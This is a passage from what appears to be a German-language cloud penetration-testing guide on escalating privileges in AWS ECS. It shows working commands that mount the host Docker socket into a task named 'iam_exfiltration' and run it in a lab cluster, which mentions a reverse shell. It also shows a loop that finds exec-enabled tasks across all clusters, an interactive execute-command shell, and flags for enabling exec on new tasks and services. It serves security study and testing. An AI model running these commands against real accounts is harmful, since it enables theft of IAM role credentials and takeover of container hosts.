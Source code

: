 ```bash
printf '[
{
"name": "docker-socket",
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Ein Angreifer mit den **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** kann **Befehle in einem laufenden Container ausführen** und die daran angehängte IAM role exfiltrieren (man braucht die describe-Berechtigungen, da diese notwendig sind, um `aws ecs execute-command` auszuführen).\
Allerdings muss dafür die container instance den **ExecuteCommand agent** ausführen (was standardmäßig nicht der Fall ist).

Therefore, the attacker could try to:

- **Versuchen, in jedem laufenden Container einen Befehl auszuführen**
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
- Wenn er **`ecs:RunTask`** hat, führe einen Task aus mit `aws ecs run-task --enable-execute-command [...]`
- Wenn er **`ecs:StartTask`** hat, führe einen Task aus mit `aws ecs start-task --enable-execute-command [...]`
- Wenn er **`ecs:CreateService`** hat, erstelle einen Service mit `aws ecs create-service --enable-execute-command [...]`
- Wenn er **`ecs:UpdateService`** hat, aktualisiere einen Service mit `aws ecs update-service --enable-execute-command [...]`
